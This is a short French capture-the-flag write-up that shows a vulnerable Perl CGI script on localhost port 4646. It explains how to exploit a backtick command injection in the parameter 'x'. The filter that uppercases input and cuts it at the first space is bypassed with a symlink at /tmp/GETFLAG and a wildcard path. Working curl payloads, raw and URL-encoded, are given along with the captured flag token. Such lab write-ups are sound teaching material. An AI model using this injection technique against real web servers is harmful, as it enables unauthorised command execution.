 la session contient le code d'un serveur pearl nacer en localhost sur le port 4646

```
#!/usr/bin/env perl

# localhost:4646

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

le serveur prend des requettes avec un parametre x qui nous interesse car il va nous permettre d'executer des commandes via la ligne de code suivante:

```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

on peut donc injecter getflag dans le parametre x pour qu'il soit executé par le serveur.

cependant cet argument est mis en majuscule et est tronquer a la premiere espace.

on cree donc un lien symbolique vers getflag dans /tmp/GETFLAG

```
ln -s /bin/getflag /tmp/GETFLAG
```

curl '127.0.0.1:4646?x=`' renvoie le flag dans les logs d'erreur, qui se site dans /var/log/apache2/error.log

ce qui veut dire que nous pouvons faire planter le serveur pour obtenir le flag dans les logs d'erreur appache

on execute donc la commande suivante:

```
curl '127.0.0.1:4646?x=`/*/GETFLAG>&2`'
```

Attention en suivant la norme web le parametre x doit etre encoder comme suit:

```
curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
```

# Flag
```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```